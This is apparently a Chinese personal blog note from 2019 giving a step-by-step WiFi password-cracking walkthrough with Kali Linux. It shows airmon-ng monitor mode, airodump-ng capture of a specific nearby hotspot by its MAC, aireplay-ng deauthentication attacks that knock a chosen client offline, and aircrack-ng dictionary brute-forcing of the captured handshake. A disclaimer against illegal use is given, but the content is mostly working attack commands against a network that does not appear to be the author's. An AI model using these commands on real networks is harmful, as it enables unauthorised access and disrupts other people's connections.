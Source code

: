 ```yaml
---
title: 暴力法破解wifi笔记
categories:
- 渗透
tags:
- wifi破解
updated: 2019-05-09
---
```




本文只是提供一个思路，目的是为了提升学习渗透的兴趣，禁止用于非法操作，否则后果自负 ！！！





# 1.准备工作

首先你得有一个外置网卡，然后用虚拟机进行破解

所需要的设备：	kali linux  外置网卡

要将虚拟机设置为：桥接模式

<img src="{{ site.url }}/assets//blog_images/2019/5月/暴力破解wifi_01.png" />

然后就是将插入的外接网卡设置为：

<img src="{{ site.url }}/assets//blog_images/2019/5月/暴力破解wifi_02.png" />

然后 ifconfig看下：

<img src="{{ site.url }}/assets//blog_images/2019/5月/暴力破解wifi_03.png" />

# 2.开始攻击

接着就进行混合：

并将wlan0网卡开启混杂模式： 

```
airmon-ng start wlan0
#提示要杀掉一些进程，根据提示进行即可
airmon-ng check kill 
airmon-ng start wlan0
```

<img src="{{ site.url }}/assets//blog_images/2019/5月/暴力破解wifi_04.png" />

开始抓包：

首先，查看附近WiFi热点，使用命令`airodump-ng wlan0mon` 

<img src="{{ site.url }}/assets//blog_images/2019/5月/暴力破解wifi_05.png" />

选取其中信号较好的WiFi热点，在这里我们选取一个目标(A4-306 2.4G)

使用airodump-ng对选取的WiFi热点进行cap监听与获取： 

```
airodump-ng -c 6 --bssid 88:25:93:60:C0:D9  -w A4-3062.4G wlan0mon（注意这个位置不能有空格，哪怕原wifi名字上有，这个地方也不能有）
 
-c 通道值 WiFi热点所对应的CH值(上图中可看到)
--bssid 需要破解WiFi的MAC值
-w cap文件名
wlan0mon 启用混杂模式的网卡名 
```

这个时候看到有12个设备进行了连接，选取一个为75-D7的进行抓包：（需要一直开启）

<img src="{{ site.url }}/assets//blog_images/2019/5月/暴力破解wifi_06.png" />

使用aireplay-ng 对选取的WiFi热点进行cap监听与获取： （再启动一个命令行）

```
aireplay-ng -0 2 -c E8:4E:06:21:75:D7  -a 88:25:93:60:C0:D9 wlanmon
 
-0 death模式，2为发送次数
-c 你所选择要断网操作的客户机MAC
-a WiFi热点MAC
```

<img src="{{ site.url }}/assets//blog_images/2019/5月/暴力破解wifi_07.png" />

有时候一次抓不到，多试几次，我试了三次之后，抓到了：

<img src="{{ site.url }}/assets//blog_images/2019/5月/暴力破解wifi_08.png" />

这个时候监听就可以停止了：

然后就是跑包了：

# 3.跑包

我们直接使用kali自带的，在文件目录中，需要解压（这里不做演示）

```
#首先ls查看当前目录所产生的握手包
aircrack-ng -w rockyou.txt A4-3062.4G-02.cap
w代表字典
接着你的包名称
```

然后就等结果吧！（其实如果wifi密码复杂的话，基本上很难跑出来）

<img src="{{ site.url }}/assets//blog_images/2019/5月/暴力破解wifi_09.png" />

这个只是一个笔记，现在暴力破解的太难了，wifi密码稍微一复杂，基本就无望。	

# 4.2019年11月更新：

现在使用kali自带的aircrack好像已经过时了，我在网上看到有更好、能跑GPU的工具了，具体的名字忘了，大家可以自行搜索，另外很多人再问我的无线网卡的型号，我的记得就30左右，不用买太好的，一般的就行：

<img src="{{ site.url }}/assets//blog_images/2019/5月/暴力破解wifi_10.png" />

最重要的还是字典问题，当然还有一种破解的方法是对pin包检测，但是那种方法只适合更老的路由器设备，现在的路由器基本上都可以防pin了，所以在这里就不再演示了。



